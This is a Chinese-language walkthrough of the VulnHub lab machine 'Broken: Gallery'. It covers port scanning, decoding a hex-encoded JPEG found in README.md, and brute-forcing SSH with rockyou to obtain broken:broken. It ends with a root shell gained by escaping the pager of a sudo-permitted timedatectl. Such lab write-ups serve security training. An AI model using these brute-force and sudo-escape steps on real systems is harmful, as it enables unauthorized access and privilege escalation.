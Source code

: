 # Broken: Gallery

2024-6-13 https://www.vulnhub.com/entry/broken-gallery,344/

difficulty: easy

## IP

192.168.10.197

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 395ebf8a49a313fa0d34b8db265779a7 (RSA)
|   256 20d772be306a2714e1e6c2167a40c852 (ECDSA)
|_  256 84a09a59612ab71edd6eda3b91f9a0c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
```

方位 80 web 服务，是个目录列表，4 个图片和一个 md 文件，http://192.168.10.197/README.md 其中显示的是十六进制的字符串，看到文件头的头几个字符 FF D8 FF E0 格式内容为 JPEG 文件，先将字符内容保存，然后用工具进行还原成 jpeg 图片

```
xxd -r -p img.txt > img.jpeg
```

内容如下：

```
Hello Bob,
The application is BROKEN ! the whole infrastructure is BROKEN !!
l am leaving for my summer vacation, l hope you get it fix soon ...
Cheers.
avrahamcohen.ac@gmail.com
```

说系统已经破坏，得到了 2 个用户名 bob 和 avrahamcohen

gobuster 目录爆破也没什么信息，只有看看那 4 个图片有没有隐写信息了，结果没有隐写。

试试 ssh 的暴力破解吧，没有其他的攻击面了，使用 rockyou 字典进行破解，用户名使用前面得到的 bob 和 avrahamcohen，还有几个图片的命名也比较奇怪，5terre forest lights mountains gallery BROKEN broken 能得到的字符全部加进去。

最后爆破得到 broken:broken 这个 ssh 凭据，进行登陆。

sudo -l

```
(ALL) NOPASSWD: /usr/bin/timedatectl
(ALL) NOPASSWD: /sbin/reboot
```

timedatectl 可以直接提权：

```
sudo timedatectl list-timezones
!/bin/bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
```
